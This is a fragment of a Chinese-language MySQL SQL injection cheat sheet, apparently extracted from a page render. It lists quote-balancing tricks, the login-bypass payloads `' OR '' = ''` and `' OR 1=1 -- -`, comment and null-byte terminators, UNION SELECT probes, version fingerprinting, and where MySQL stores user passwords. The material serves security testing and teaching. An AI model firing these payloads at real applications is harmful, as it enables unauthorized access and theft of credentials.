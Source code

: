  |

例子:

```
SELECT * FROM Users WHERE id = '1''';
SELECT * FROM Users WHERE id = 3-2;
SELECT * FROM Users WHERE username = 'Mike' AND password = '' OR '' = ''; 
```

可以使用很多单双引号，只要是成对出现。

```
SELECT * FROM Articles WHERE id = '121''''''''''''' 
```

引号后的语句会继续执行。

```
SELECT '1'''''"" UNION SELECT '2' # 1 and 2 
```

下面的符号可以用来注释语句：

|       #      |       Hash 语法      |
|       /*      |       C-style 语法      |
|       -- -      |       SQL 语法      |
|       ;%00      |       空字节      |
|       `      |       反引号      |

例子：

```
SELECT * FROM Users WHERE username = '' OR 1=1 -- -' AND password = '';
SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3`'; 
```

### 测试数据库版本

```
VERSION()
@@VERSION
@@GLOBAL.VERSION 
```

如果版本为 5 的话，下面例子返回为真：

```
SELECT * FROM Users WHERE id = '1' AND MID(VERSION(),1,1) = '5'; 
```

windows 平台上的 mysql 查询与 linux 上返回不同，如果是 windows 服务器返回结果会包含 -nt-log 字符。

### 数据库认证信息：

|       表      |       mysql.user      |
|       字段      |       user, password      |
|       当前用户      |       user(), current_user(), current_user, system_user(), session_user()      |
